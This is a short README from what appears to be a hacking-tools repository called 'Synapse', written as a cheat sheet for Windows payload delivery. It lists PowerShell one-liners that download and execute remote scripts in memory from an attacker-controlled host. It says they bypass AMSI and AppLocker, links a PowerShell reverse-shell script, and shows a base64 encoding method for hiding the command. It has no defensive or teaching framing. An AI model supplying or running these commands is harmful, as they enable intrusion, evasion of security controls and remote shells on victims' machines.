 # Synapse

> Repo for {Hacking Tools}

# Get files
## IEX (Doesnt touch disk - Helps to bypass AMSI/Applocker)
`IEX (New-Object Net.WebClient).DownloadString('http://xxxxx:9000/somefile')`

Where xxx can be [Invoke_PowerShellTcp](https://github.com/evilNeuron/Synapse/blob/master/Windows/Exploitation/Invoke-PowerShellTcp_1337.ps1)
`powershell -c IEX (New-Object Net.WebClient).DownloadString('http://xxxxx:9000/somefile')`

`C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -c IEX (New-Object Net.WebClient).DownloadString('http://xxxxx:9000/somefile')`
### Encoded (run in linux)
`echo powershell -EncodedCommand $(echo -n "IEX (New-Object Net.WebClient).DownloadString('http://$LHOST:$PORT/$FILE')" | iconv  -t UTF-16LE | base64 -w0)`

## Write to disk
`invoke-webrequest -Uri http://xxxxx:9000/somefile -OutFile somefile`
